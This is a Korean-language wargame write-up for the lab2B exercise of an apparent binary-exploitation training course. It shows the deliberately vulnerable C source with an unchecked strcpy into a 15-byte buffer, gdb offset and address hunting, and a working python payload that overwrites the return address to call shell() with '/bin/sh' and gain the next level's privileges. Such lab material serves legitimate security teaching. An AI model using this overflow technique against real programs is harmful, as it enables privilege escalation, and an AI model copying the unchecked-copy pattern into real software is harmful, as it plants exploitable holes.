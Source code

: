 ## 1. 문제 확인
- ID : lab2B
- Target : /level/lab02/lab2B
- flag : /home/lab2A/.pass
```
	lab2B@warzone:/levels/lab02$ ./lab2B
	usage:
	./lab2B string
	lab2B@warzone:/levels/lab02$ ./lab2B g4nzzi
	Hello g4nzzi
	lab2B@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2B.c -o lab2B
 	*/

	char* exec_string = "/bin/sh";

	void shell(char* cmd)
	{
    	system(cmd);
	}

	void print_name(char* input)
	{
    	char buf[15];
        strcpy(buf, input);
        printf("Hello %s\n", buf);
	}

	int main(int argc, char** argv)
	{
        if(argc != 2)
        {
            printf("usage:\n%s string\n", argv[0]);
            return EXIT_FAILURE;
        }

        print_name(argv[1]);

        return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- 실행 인자값(argv)이 1개일 경우, main()함수에서 print_name(argv[1])함수를 호출함
```c
	int main(int argc, char** argv)
	{
        if(argc != 2)
        {
 		...
        }

        print_name(argv[1]);
    }
```
- print_name()함수에서 strcpy()함수로 실행 인자값(input)을 buf에 복사할 때 overflow 취약점 존재 
```c
	void print_name(char* input)
	{
    	char buf[15];
        strcpy(buf, input);
        ...
	}
```
- buf를 이용해 stack 메모리를 덮어쓰면, print_name()함수를 끝내고 main()함수로 돌아갈 주소를 shell()함수 주소로 변경 가능
```
	[XXXXXXXXXXXXXXX] [SFP] [RET]
           buf              main() <-- shell() 주소로 변경
```
- shell()함수에 exec_string값을 인자값으로 전달하면 "/bin/sh"로 system()함수를 호출하여 쉘 획득
```
	[XXXXXXXXXXXXXXX] [SFP]  [RET]   [argv]
           buf               main() 
                               ^         ^ 
                               |         |
                            shell()  exec_string
```

<br/><br/>
## 3. Exploit
- main()함수 리턴주소 위치를 계산해보니 실행 인자값(input)에서 27byte 떨어진 위치에 있음
```
	gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
	Starting program: /levels/lab02/lab2B AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
    ...
	Stopped reason: SIGSEGV
	0x48484847 in ?? ()
```
```
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
                               ^
               (27byte)        |
``` 
- 해당 위치에 shell()함수 주소값, 복귀 주소값, exec_string 주소값이 덮어써지도록 하면 됨
  (복귀 주소는 shell() 호출 이후 복귀할 주소를 뜻하므로 임의로 4byte 채워주면 됨)
```
    [XXXXXXXXXXXXXXXXXXXXXXX] [SFP]   [RET]    [RET]   [argv]
           buf + dummy                main() 
            (23byte)         (4byte) (4byte)  (4byte)  (4byte)
                                        |        |        |
                                     shell()  복귀 주소  exec_string
```
- 전역변수인 exec_string 값 "/bin/sh"의 주소는 0x80487d0 이고 shell()함수의 주소는 0x80486bd
```
	gdb-peda$ find "/bin/sh"
	Searching for '/bin/sh' in: None ranges
	Found 3 results, display max 3 items:
	lab2B : 0x80487d0 ("/bin/sh")
	lab2B : 0x80497d0 ("/bin/sh")
	 libc : 0xb7f83a24 ("/bin/sh")
```
```
	gdb-peda$ p shell
	$1 = {<text variable, no debug info>} 0x80486bd <shell>
```
- 실행 인자값으로 아래와 같이 입력하면 강제로 shell()함수 호출 후 쉘이 획득됨
```
	lab2B@warzone:/levels/lab02$ ./lab2B $(python -c 'print "A"*27+"\xbd\x86\x04\x08" + "BBBB" + "\xd0\x87\x04\x08"')
	Hello AAAAAAAAAAAAAAAAAAAAAAAAAAA▒BBBBЇ
	$ id
		uid=1007(lab2B) gid=1008(lab2B) euid=1008(lab2A) groups=1009(lab2A),1001(gameuser),1008(lab2B)
	$
```
